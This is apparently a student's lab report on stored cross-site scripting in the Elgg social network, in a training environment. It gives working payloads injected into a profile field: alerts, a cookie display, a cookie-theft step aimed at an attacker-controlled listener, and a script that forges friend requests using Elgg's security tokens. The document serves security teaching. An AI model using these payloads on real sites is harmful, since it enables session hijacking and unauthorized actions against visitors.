# Week #10: Web XSS Elgg

## Task #1: Posting a Malicious Message to Display an Alert Window
The objective of this task is to show anyone who enters our profile a pop-up. In order to do this, we need to input our script into the vulnerable form so that it will run whenever the user's profile is loaded.

```html
<script>alert("XSS");</script>
```

|                          |
| :----------------------------------------------------------: |
| *Figure 1: Modifying the vulnerable form in the edit profile page to show the alert to anyone who views the malicious user page.* |

|                          |
| ------------------------------------------------------------ |
| *Figure 2 : Pop-up resulting from opening the malicious user profile page* |

We can also achieve the same effect by we could store the javascript code in a standalone file and then refer to it by using the source tag using the following piece of code where http://www.example.com is the website with the file.

```html
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>
```

## Task #2: Posting a Malicious Message to Display Cookies

The objective of this task is to show anyone who enters our profile a pop-up with the content of the cookies. In order to do this, we need to input our script into the vulnerable form so that it will run whenever the user's profile is loaded and access the cookies so they are printed in the alert.

```html
<script>alert(document.cookie);</script>
```

|                          |
| :----------------------------------------------------------: |
| *Figure 3: Modifying the vulnerable form in the edit profile page to show the alert to anyone who views the malicious user page.* |

|                          |
| ------------------------------------------------------------ |
| *Figure 4 : Pop-up with cookies resulting from opening the malicious user profile page* |

## Task #3: Stealing Cookies from the Victim's Machine

In this task we want to retrieve the authentication cookie of the victim whenever a user views a malicious user page. In order to do so we input a script in the vulnerable form that'll insert an image once the malicious page is loaded resulting in a HTTP GET request to retrieve said image from the src defined by the attacker/us. The src is, commonly, a TCP server controlled by the attacker, plus the cookie of the victim.

```html
<script>document.write(''); </script>
```

|                          |
| :----------------------------------------------------------: |
| *Figure 5: Modifying the vulnerable form in the edit profile page to inject anyone who views the malicious user page.* |

|                          |
| ------------------------------------------------------------ |
| *Figure 6: Opening the TCP server that listend for the HTTP GET request sent by the script in the malicious user page, and retrieving the cookie of the authenticated user, in this case, Alice* |

## Task #4: Becoming the Victim’s Friend

In this task we want to add  Samy as a friend to any other user that visits Samy’s page. We will then write a malicious Javascript program  forges HTTP requests from the victim’s browser without the the attacker's direct intervention.

Using another account and checking the request to add Samy, we discovered the following URL:

|                          |
| :----------------------------------------------------------: |
| *Figure 7: Request URL from adding Samy as a friend.* |

To create our script we used the code sample provided to us and changed it so that when Samy's account was visited a friend request http request was made.

```html
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

|                          |
| :----------------------------------------------------------: |
| *Figure 8: Malicious code written onto the "About Me" field.* |

|                          |
| :----------------------------------------------------------: |
| *Figure 9: User profile before visiting Samy's account.* |

|                          |
| :----------------------------------------------------------: |
| *Figure 10: User visiting Samy's account without adding as friend.* |

|                          |
| :----------------------------------------------------------: |
| *Figure 11: User after visiting Samy's account.* |

<br>

###### Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?
A: These lines are needed because these tokens are used in the HTTP request sent.
###### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
A: No, because unless the code is written in Text mode, the browser will not attempt to execute it, and will just display it as regular text.

